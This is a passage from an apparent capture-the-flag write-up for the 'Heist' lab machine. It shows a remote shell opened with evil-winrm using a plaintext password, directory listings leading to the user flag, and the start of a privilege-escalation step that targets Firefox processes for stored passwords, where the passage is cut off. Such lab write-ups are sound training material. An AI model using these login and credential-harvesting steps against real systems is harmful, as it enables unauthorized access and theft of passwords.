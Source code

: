 ```
evil-winrm -i heist.htb -u chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> ls

    Directory: C:\Users\Chase\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/14/2020   5:31 AM        1309448 aa.exe

*Evil-WinRM* PS C:\Users\Chase\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> ls

    Directory: C:\Users\Chase\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-a----        4/22/2019   9:07 AM             32 user.txt
```

Get the user flag 

# Priviledge Escalation

In ps you find 4 `firefox` processes running currently. Firefox haz been known to store passwords in plain 

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    454      18     2252       5460               408   0 csrss
    293      17     2256       5200               496   1 csrss
    358      15     3516      14720              5356   1 ctfmon
    164       9     1896       9808       0.14   2816   1 dllhost
    257      14     4192      13600              4024   0 dllhost
    623      32    32952      59204              1020   1 dwm
   1496      58    23532      78392              5588   1 explorer
    408      32    16920      62672       1.61   5276   1 firefox
    358      26    16276      37564       0.47   6508   1 firefox
    390      39   106600     138304      44.73   6644   1 firefox
   1134      74   168208     210304      21.28   6812   1 firefox
    345      20    10620      38872       0.13   6936   1 firefox
-------------
CUT CONTENT
-------------
```
